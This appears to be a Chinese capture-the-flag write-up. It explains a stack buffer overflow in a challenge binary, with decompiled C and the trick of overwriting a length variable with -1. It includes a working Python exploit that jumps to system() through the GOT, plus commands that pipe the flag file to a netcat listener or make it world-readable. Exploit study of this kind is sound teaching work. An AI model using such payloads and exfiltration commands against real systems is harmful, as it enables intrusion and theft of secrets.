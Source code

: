 首先看程序很明显会发现，接收到的串没有做长度校验，所以传递传递超过长度限制的就会直接溢出，覆盖返回值地址不解释，然后程序由于调用过system，所以GOT表中已经有了system，直接调用就好，至于参数，由于程序将我们的输入串strcpy到了一个全局变量中，那么我们直接就可以用这个全局变量当参数了，真是简直不能更水，ROP神马完全都不用了。

但是写了payload发现挂彩，于是乎仔细一看，程序在读入之后，调用这个getnum函数的时候崩掉了：

```c
int __cdecl getnum(char *input_buf){  unsigned int v1; // eax@1  char s[16]; // [sp+10h] [bp-28h]@1  size_t v4; // [sp+20h] [bp-18h]@1  int v5; // [sp+24h] [bp-14h]@1  size_t i; // [sp+28h] [bp-10h]@1  int v7; // [sp+2Ch] [bp-Ch]@1  v7 = 0;  v5 = 0;  v4 = 0;  v1 = time(0);  srand(v1);  memset(s, 0, 0x10u);  v4 = strlen(input_buf);  for ( i = 0; (signed int)i < (signed int)v4; ++i )  {    if ( input_buf[i] != 32 )      s[v5++] = input_buf[i];  }  if ( !strcmp(s, "apple") )  {    v7 = rand() % 1000;  }  else if ( !strcmp(s, "pear") )  {    v7 = rand() % 1000;  }  else if ( !strcmp(s, "orange") )  {    v7 = rand() % 1000;  }  else if ( !strcmp(s, "banana") )  {    v7 = rand() % 1000;  }  else if ( !strcmp(s, "peach") )  {    v7 = rand() % 1000;  }  else  {    v7 = -1;  }  return v7;}
```

我们可以发现，这里将输入字符串的除空格之外的字符存到了局部变量s中，于是乎，按照我们的输入，会导致这里也溢出，然后v4先被覆盖成一个很大的值，循环出不去，然后访问内存的时候就崩了。

那么我们只要想办法让溢出的时候，循环直接break就好，当然我们可以用\x00来截断，但是截断同时也会导致我们执行system的时候，里面的命令被截断，所以鉴于这里v4是signed int，那么我们最好的办法就是把v4覆盖成0xffffffff，即-1。

然后我们本地运行`system("cat /tmp/shopkey")`会发现，获取到的key是输出到了服务器端，而我们连接服务器的脚本是接收不到key的，因为这里和平常nc连接服务器不一样，这里的socket是这个程序自己控制的，除非我们直接调send，直接输出的东西只能在服务器程序那边看到，我们这里是收不到的。

然后为了将flag发回来，我当时的想法是执行命令`cat /tmp/shopkey | nc -l -p 8888`让程序监听端口，然后再开一个终端`nc 0.0.0.0 8888`就可以接收到flag了，然后就这么过了。

后来想了下，我们其实可以直接`cat /tmp/shopkey > /tmp/.test`输出到一个文件，然后这个文件有所有人读的权限，我们就可以用当前ctf帐号读取flag了，或者甚至可以直接`chmod a+r /tmp/shopkey`，不过这样容易让其他人也一个不小心就看到flag的说……

最后程序很简单：

```python
#!/usr/bin/env python
#encoding:utf-8

import socket

def NOPS(n):
    return ' ' * n

def RIGHT_PAD(s, n):
    return s + NOPS(n - len(s))

def l32(x):
    return ''.join([chr((x >> (i << 3)) & 0xff) for i in xrange(4)])

SOCK_PATH = '/home/wangyanfeng/shopinfo/si-socket'
BINSH_ADDR = 0x0804B0A0
SYSTEM_GOT = 0x08048670
LEN_TO_RET = 0x4c + 4

io = socket.socket(socket.AF_UNIX)
io.connect(SOCK_PATH)

payload = RIGHT_PAD('\xff' * 20 + '\ncat /tmp/shopkey | nc -l -p 8888\n', LEN_TO_RET) + l32(SYSTEM_GOT) + NOPS(4) + l32(BINSH_ADDR)
# payload = RIGHT_PAD('\xff' * 20 + '\ncat /tmp/shopkey > /tmp/.test\n', LEN_TO_RET) + l32(SYSTEM_GOT) + NOPS(4) + l32(BINSH_ADDR)
io.sendall(l32(len(payload)))
io.sendall(payload)
```

